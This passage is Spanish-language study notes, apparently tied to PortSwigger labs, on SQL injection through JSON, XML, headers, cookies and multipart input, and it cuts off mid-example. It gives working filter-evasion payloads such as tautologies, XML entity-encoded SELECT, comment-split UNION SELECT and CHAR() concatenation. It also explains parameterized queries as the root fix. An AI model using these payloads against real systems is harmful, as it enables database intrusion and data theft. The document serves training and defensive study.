 # SQL injection en diferentes contextos (JSON, XML, headers, APIs)

Las inyecciones SQL no se limitan al query string. Cualquier entrada controlable por el usuario que termine formando una consulta SQL puede ser vector de inyección: JSON, XML, cabeceras, cookies, segmentos de URL, multipart, GraphQL, etc. Diferentes formatos ofrecen formas alternativas de ocultar o evadir filtros, y a menudo requieren técnicas de explotación y evasión específicas.

[Obfuscating](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)

---

## 1) Idea clave

La vulnerabilidad aparece cuando la aplicación **construye o interpola** una consulta SQL usando datos controlados externamente sin usar **consultas parametrizadas**  o validación estricta. El formato del dato (JSON, XML, header) sólo cambia la forma en que el payload debe llegar y cómo la app lo decodifica antes de pasarlo al motor SQL.

---

## 2) Contextos comunes y ejemplos

### A — Query string / form data

* GET: `/product?id=123` → `SELECT * FROM products WHERE id = '123'`.
* POST form: `product=123` similar.

### B — JSON

* Petición JSON típica:

  ```json
  { "productId": 123, "filter": "recent" }
  ```
* Si el backend hace algo peligroso como: `query = "SELECT * FROM products WHERE id = '" + data.productId + "'";`, aceptará payloads JSON que incluyan comillas o estructuras.
* **Ejemplo de inyección JSON**: si `productId` no se valida: `{ "productId": "1' OR '1'='1" }` → `... WHERE id = '1' OR '1'='1'`.

### C — XML

* XML puede usar **escape sequences** o **entidades**:

  ```xml
  <stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  </stockCheck>
  ```

  El parser XML decodifica `&#x53;` a `S`, resultando en `SELECT` en el SQL final.
* También se puede abusar de **CDATA** y XXE para OOB exfiltration (cuando el XML es parseado y convertido a SQL después).

[Lab: SQL_injection_with_filter_bypass_via_XML_encoding](1_SQL_injection_with_filter_bypass_via_XML_encoding.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)  


### D — Headers, Cookies y Path params

* `User-Agent`, `Referer`, `X-Forwarded-For`, o cookies pueden ser usados para inyección si son concatenados en SQL.
* Ejemplo: app registra `INSERT INTO access_log (ua) VALUES ('<User-Agent>')` → inyectá en `User-Agent`.
* Segmentos RESTful: `/user/123/orders` → si la app hace `WHERE user_id = '123'` usando el segmento, ese valor también puede explotar.

### E — Multipart / file metadata

* Formularios multipart incluyen campos de texto que pueden inyectarse. Metadatos de filenames también.

---

## 3) Por qué los formatos ayudan a evadir filtros (WAF, regex simples)

* Muchos filtros buscan palabras clave comunes (`SELECT`, `UNION`, `DROP`) en la entrada cruda. Si el formato (ej. JSON/XML) **decodifica** entidades o escape sequences antes de ejecutar SQL, un payload codificado puede pasar el filtro y luego ser interpretado por el servidor.
* Ejemplos de evasión:

  * **Escapes HTML / XML**: `&#x53;ELECT` → `SELECT` tras parseo XML.
  * **URL encoding / percent encoding** en parámetros.
  * **Unicode homoglyphs / UTF-8 overlong** (poco fiable y detectable).
  * **Insertar comentarios** dentro de palabras clave: `SE/**/LECT`.
  * **Separar la palabra clave**: `SE` + `LECT` (si la app concatena input de varias fuentes).
  * **Uso de concatenación del motor**: `CHAR(83)+'ELECT'` (en SQL Server) o `CHR(83)||'ELECT'` (Oracle) para producir `SELECT` internamente.

---

## 4) Ejemplos prácticos de bypass

> Ajustar comillas y encoding según el contexto (JSON string, XML text, header).

* **JSON (body)**

  ```json
  { "id": "1' OR '1'='1" }
  ```

* **JSON con encoding** (si parser decodes):

  ```json
  { "q": "1\u0027 OR \u00271\u0027=\u00271" }
  ```

  (`\u0027` = `'`) puede evadir filtros que no normalizan unicode.

* **XML escape example**

  ```xml
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  ```

  (XML decode → `SELECT`)

* **Split keyword with comments**

  ```sql
  ' UN/**/ION SEL/**/ECT NULL,NULL--
  ```

* **Hex / CHAR functions** (MSSQL)

  ```sql
  ' UNION SELECT CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84) --
  ```

* **Concatenate pieces from different JSON fields**
  Si un backend hace `q = body.a + body.b`, envía `{"a":"SE
